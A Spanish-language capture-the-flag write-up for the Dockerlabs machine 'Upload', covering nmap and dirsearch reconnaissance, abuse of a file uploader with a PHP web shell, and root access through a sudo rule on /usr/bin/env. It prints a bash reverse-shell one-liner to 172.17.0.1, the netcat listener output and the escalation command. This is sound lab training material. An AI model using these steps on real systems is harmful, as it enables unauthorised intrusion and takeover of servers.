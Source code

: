```yaml
---
title:  "Upload - Dockerlabs"
header:
  teaser:
categories: 
  - CTFs
tags:
  - Dockerlabs
---
```


La máquina **Upload** se puede encontrar en [Dockerlabs](https://dockerlabs.es/) y está catalogada como de nivel muy fácil. Mediante fuzzing, encontraremos un cargador de archivos del que podremos abusar para obtener una reverse shell en la máquina víctima. Para escalar privilegios, podremos aprovechar los permisos que tiene el usuario sobre el binario `/env`.

## Reconocimiento

Comienzo desplegando la máquina docker con el script de auto_deploy. Voy a comprobar que se encuentra activa haciendo un ping.

```shell
ping -c 1 172.17.0.2                                                                                                                    
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.273 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.273/0.273/0.273/0.000 ms
```

El siguiente paso es hacer un nmap para ver que puertos tiene abiertos. Utilizo los siguientes parámetros:

- -p-: Escanear todos los puertos (65535).
- –open: Mostrar solo los puertos abiertos.
- -sS: Realiza un TCP SYN Scan para escanear rápidamente que puertos están abiertos.
- –min-rate 5000: Indicamos que el escaneo no vaya más lento que 5000 paquetes por segundo.
- -vvv: El modo verbose nos muestra la información según se va encontrando.
- -n: No realizar resolución de DNS. Así evitamos que el escaneo dure más tiempo del necesario.
- -Pn: Deshabilitar el descubrimiento de host mediante ping.
- -oG: Exportar el resultado a un fichero en una sola línea para que podamos usar comandos como: grep, awk, sed, etc. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports                                                            

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 12:15 EDT
Initiating ARP Ping Scan at 12:15
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:15, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:15
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:15, 0.76s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000060s latency).
Scanned at 2024-05-28 12:15:56 EDT for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

Solo encuentra 1 puerto abierto: 

- 80 (HTTP)

Ejecuto otro nmap para analizar los servicios y versiones de esos puertos. Los comandos usados son:

- -sCV: Detectar el servicio y aplicar scripts básicos de reconocimiento.
- -p: Indicar los puertos a escanear.
- -oN: Exportar el resultado a un archivo.

```shell
nmap -sCV -p80 172.17.0.2 -oN target                                                                                                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 12:20 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 85.03% done; ETC: 12:20 (0:00:00 remaining)
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.34 seconds
```

Uso whatweb para ver que tecnologías se usan en la web.

```shell
whatweb http://172.17.0.2                                                                                                               
http://172.17.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], Title[Upload here your file]
```

Para enumerar archivos y directorios uso la herramienta dirsearch. Le indico que no me muestre varios códigos de estado HTTP.

```shell
dirsearch -u http://172.17.0.2 --exclude-status 403,404,500,502,400,401                                                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/upload/nmap/reports/http_172.17.0.2/_24-05-28_12-21-37.txt

Target: http://172.17.0.2/

[12:21:37] Starting: 
[12:22:05] 200 -  503B  - /upload.php                                       
[12:22:05] 200 -  404B  - /uploads/                                         
[12:22:05] 301 -  310B  - /uploads  ->  http://172.17.0.2/uploads/          
Task Completed
```

## Análisis de vulnerabilidades

Accedo a la web y encuentro la página que viene por defecto en la instalación de apache.

![Upload 1](/assets/images/2024-05-28-Upload/upload_1.png)

Voy a la ruta de "uploads" que ha encontrado dirsearch, pero veo que está vacía.

![Upload 2](/assets/images/2024-05-28-Upload/upload_2.png)

En el archivo "upload.php " me encuentro con un subidor. Creo un fichero de prueba y lo subo.

![Upload 3](/assets/images/2024-05-28-Upload/upload_3.png)

Compruebo como se ha guardado en /uploads, el cual antes estaba vacío.

![Upload 4](/assets/images/2024-05-28-Upload/upload_4.png)

## Explotación de vulnerabilidades

Voy a crear un payload en php que me permita explotar un RCE utilizando la función shell_exec.

![Upload 5](/assets/images/2024-05-28-Upload/upload_5.png)

Subo el fichero y accedo a él. Usando el parámetro "cmd", introduzco el comando `whoami` y veo como se ejecuta correctamente.

![Upload 6](/assets/images/2024-05-28-Upload/upload_6.png)

El siguiente paso es obtener una reverse shell. Me pongo en escucha con netcat y ejecuto el comando `bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4321 0>%261"` (importante hacer URL encode de & a %26). Consigo obtener acceso al sistema.

```shell
nc -nlvp 4321                                                            
listening on [any] 4321 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37384
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@0c5eb0247473:/var/www/html/uploads$ whoami
whoami
www-data
www-data@0c5eb0247473:/var/www/html/uploads$ 
```
## Escalada de privilegios

Para tener una consola interactiva, hay que hacer un tratamiento de la tty. Ejecuto `script /dev/null -c bash`, hago ***ctrl+z***, escribo ***"stty raw -echo; fg"***, introduzco ***"reset xterm"*** y doy un ***intro***. Con esto he reiniciado la configuración de la terminal.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$
```

La shell todavía no es interactiva del todo. Podemos ver que la variable de entorno $TERM tiene el valor dump y no xterm. Podemos arreglar esto de la siguiente forma. 

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ echo $TERM
dumb
www-data@0c5eb0247473:/var/www/html/uploads$ export TERM=xterm
```

La proporción de la consola no es igual a la de terminal. Miro el tamaño con `stty size`.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ stty size
24 80
```

En la máquina hay 24 filas y 80 columnas, pero en mi kali son 63 filas y 281 columnas. Las modifico para que tengan el mismo espacio.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ stty rows 63 columns 281
```

Reviso información del usuario actual.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Compruebo si el usuario actual tiene algún permiso especial. Veo que puede ejecutar `/usr/bin/env` como root sin necesidad de proporcionar una contraseña.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on 0c5eb0247473:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 0c5eb0247473:
    (root) NOPASSWD: /usr/bin/env
```

Buscando, encuentro en [env-GTFOBins](https://gtfobins.github.io/gtfobins/env/) como obtener una shell como root usando el binario `/env`. Ejecuto `sudo env /bin/sh` y consigo ser usuario root.

```shell
$ sudo env /bin/sh
# whoami
root
```
